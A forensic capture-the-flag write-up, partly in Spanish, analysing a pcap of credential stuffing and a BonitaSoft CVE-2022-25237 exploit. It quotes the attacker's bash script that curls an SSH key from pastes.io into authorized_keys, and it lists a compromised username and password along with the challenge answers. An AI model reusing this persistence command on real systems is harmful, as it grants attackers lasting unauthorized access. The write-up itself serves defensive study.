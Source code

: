 # Meerkat
#sherlock
#easy 
#pcap
#alerts 

We are given a .json and a .pcap


To search the name of the application thats running in the Business Management Platform server we can search inside the json

Here we can find the name is `BonitaSoft`

In the .pcap we can see a lot of HTTP post petitions which have different usernames and passwords so we can be facing `Credential stuffing`

In the first alert that we see the BonitaSoft name we have the corresponding CVE `CVE-2022-25237`

after reading about that CVE we realize the attacker must try to access a certain PATH in the HTTP request, after just 2 POST requests, we can find the special path in the third one `i18ntranslation`

Si aplicamos el siguiente filtro en wireshark podemos ver el número de intentos realizados con diferentes credenciales `http.request.method and http.request.uri contains "loginservice"` un total de 56

El usuario y la contraseña exitosos deben ser los últimos por orden temporal si consultamos el último HTTP POST a ese endpoint encontramos

username: seb.broom@forela.co.uk
password: g0vernm3nt

`seb.broom@forela.co.uk:g0vernm3nt`

we can see that after the attacker enters succesfully the machine via SSH he starts doing queries to a text sharing site called `pastes.io`

a little bit after the first DNS request to pastes.io we can see a HTTP get with some js which has the following command inside `[Path with value: /cmd:bash bx5gcr0et8]`. Now we can search the paste that the attacker used by going to `https://pastes.io/bx5gcr0et8`

The content is 

```
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

The MD5 is `0dc54416c346584539aa985e9d69a98e`

Inside the previous content we find `https://pastes.io/raw/hffgra4unv` which has the public ssh key used by the attacker
`curl https://pastes.io/raw/hffgra4unv > key`
The key hash is `dbb906628855a433d70025b6692c05e7`

The modified file to win persistence is `/home/ubuntu/.ssh/authorized_keys`

The associated MITTRE to this persistence mechanism is the `T1098.004`